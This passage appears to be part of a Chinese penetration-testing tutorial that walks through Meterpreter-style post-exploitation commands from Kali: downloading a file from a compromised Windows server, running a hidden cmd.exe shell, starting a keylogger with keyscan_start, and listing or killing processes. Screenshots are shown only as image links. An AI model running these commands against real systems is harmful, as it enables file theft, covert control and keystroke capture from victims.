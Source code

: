 ![image-20230503181415509](assets/image-20230503181415509.png)

 输入命令 `download c:\1.txt` ，可将目标服务器上的文件下载到 kali。

![image-20230503181434043](assets/image-20230503181434043.png)

输入 `execute -H -i -f cmd.exe` 命令，在目标上执行 cmd.exe 命令

![image-20230503181522098](assets/image-20230503181522098.png)

 输入 `keyscan_start` 命令，开启键盘记录

![image-20230503181544690](assets/image-20230503181544690.png)

 输入 `ps` 命令，查看正在运行的进程列表。可使用 kill pid，命令终止指定的进程，pid为进程号。
